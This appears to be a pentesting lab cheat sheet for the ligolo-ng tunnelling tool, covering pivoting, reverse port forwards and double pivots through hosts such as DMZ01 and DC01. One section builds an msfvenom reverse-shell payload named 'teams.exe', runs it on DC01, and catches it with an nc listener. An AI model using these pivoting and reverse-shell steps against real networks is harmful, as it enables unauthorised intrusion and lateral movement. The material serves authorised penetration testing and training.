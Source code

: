 # ligolo-ng

## Overview

Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS).


## Usage

Example Scenario:

Lets say that we are connected to a vpn and we can talk with a machine called MS01. Then in this machine we can talk to a DC01. Ligolo can help us tunnel through MS01 directly to DC01, so that we can do from our local machine this:

    ping DC01

First download the ligolo agent to the MS01 machine and the ligolo proxy to run it in our local machine

Then in the localhost create the ligolo interface:

    sudo ip tuntap add user kali mode tun ligolo

Then start the interface:

    sudo ip link set ligolo up

Then start the proxy in the localhost:

    ./proxy -selfcert -laddr 0.0.0.0:<desired_proxy_port>

Then on the machine MS01, start the agent:

    agent.exe --connect <ip_of _the_proxy>:<port_of_the_proxy> -retry -ignore-cert

Back on the proxy, after the agent has joined:

    session
    <choose the session for the agent that just connected>
    start

Then add the route to DC01 to the interface:

    sudo ip route add <subnet_mask_dc01> dev ligolo

For example

    sudo ip route add 10.10.1.0/24 dev ligolo

Finally you should be able now to simple do:

    ping DC01

And the icmp packets will be route through MS01 to DC01

## Reverse Port Forward through agent to proxy

When the proxy is running in localhost. In a ligolo session, use the listener_add to start a reverse port forward through the agent to the proxy:

    listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp

This will create a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server.

## Reverse shell Through agent to proxy

Let's say we have a server DC01 that can connect to A1, but not to our localhost. Our localhost as a ligolo proxy set and A1 has a ligolo agent running and a session has been started between our localhost proxy and the agent of A1. To start a revershell from DC01 to our local host we can do:

First in the proxy we create a listener in the session of A1.

```
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:443 --tcp
```

This means that any connection to A1 on port 443 will be forwards to our localhost:443.

Then we create a msfvenom payload from DC01 to A1 port 443:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[A1_IP_ADDRESS] LPORT=443 -f exe -o teams.exe
```

We create our nc listener on port 443 in our localhost

```shell
nc -nvlp 443
```

Finally we upload the teams.exe payload to DC01 and run it. If there is an error with our ligolo listener, we can remove it and instead do port forwarding from A1 to our localhost with chisel or ssh:

```shell
ssh -i root.key -R [A1_IP_ADDRESS]:443:0.0.0.0:443 root@[A1_IP_ADDRESS] -vN
```


## Double Pivoting

Lets consider an environment with:

localhost -> DMZ01 -> DC01 -> I01

To be able to ping I01 from our localhost we need to create a double pivot from DMZ01 to localhost and then from DC01, through DMZ01 to our localhost.

1- We setup the proxy in our localhost:

```shell
#in the localhost
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
#this creates a proxy on the default port of 11601
./ligolo-proxy -selfcert
```

2- Create an agent in DMZ01 that connects to our proxy:

```shell
./ligolo-agent --connect <localhost_ip>:11601 -retry -ignore-cert
```

3- Back in the localhost proxy, create the route to dmz01, and start the session:
```shell
sudo ip route add 172.16.0.0/16 dev ligolo
#choose the session in the proxy and start
```
4- Now, we want to use agent in DC01, that creates a session in our localhost:11601, to do this, we will need to reverse porforward the connections to 11601 in DMZ01 to our localhost:

```shell
#in the proxy, on the dmz01 session create a listener
listener_add --addr 0.0.0.0:11601 --to <localhost_ip>:11601 --tcp
#this should create a port in DMZ01 listenning to connections, we can check this with
netstat -ant|grep 11601
```
We should see the ipv4 and ipv6 listeners:

    tcp        0      0 0.0.0.0:11601           0.0.0.0:*               LISTEN
    tcp6       0      0 :::11601                :::*                    LISTEN

Now sometimes the listener only creates a port only listening in ipv6, not in ipv4 as well. If this happens we need to stop the listener and reverse porfoward in some other way like:

```shell
ssh -R <DMZ01_ip_address>:11601:0.0.0.0:11601 root@<DMZ01_ip_address>
```

5- Moving on to start an agent in DC01. We are goin to need a new tunnel for the connection between DC01 agent and the proxy. This new tunnel cannot use the ligolo interface, because this interface is already being used for the tunnel between the proxy and DMZ01, so lets create a new interface:

```shell
sudo ip tuntap add user kali mode tun ligolo-double
sudo ip link set ligolo-double up
```

6- Now in the DC01, start the agent connecting to DMZ01 (which will porforward to our localhost):

```shell
./ligolo-agent --connect <DMZ01_ip_address>:11601 -retry -ignore-cert
```

7- We should see a new session being created on the proxy. Choose this session and start the new tunnel:

```shell
#in the ligolo proxy
tunnel_start --tun ligolo-double
```

8- The only thing missing is to route the requests to I01, through this new interface. For example:

```shell
sudo ip route add <I01_ip_address>/32 dev ligolo-double
sudo ip route add 172.16.9.25/32 dev ligolo-double
```

9- We can finally ping I01:

```shell
ping I01
```


## Cleaning up

After using ligolo, you can delete the created interface with:

```shell
sudo ip link delete ligolo
```

This will also delete the routes created.

## Tips

When using nmap, you should use --unprivileged or -PE to avoid false positives.

```shell
nmap -Pn -oN dc01_nmap.out --unprivileged DC01.INLANEFREIGHT.LOCAL

nmap -Pn -oN dc01_nmap.out --unprivileged -iL live_hosts


## More Information

https://github.com/nicocha30/ligolo-ng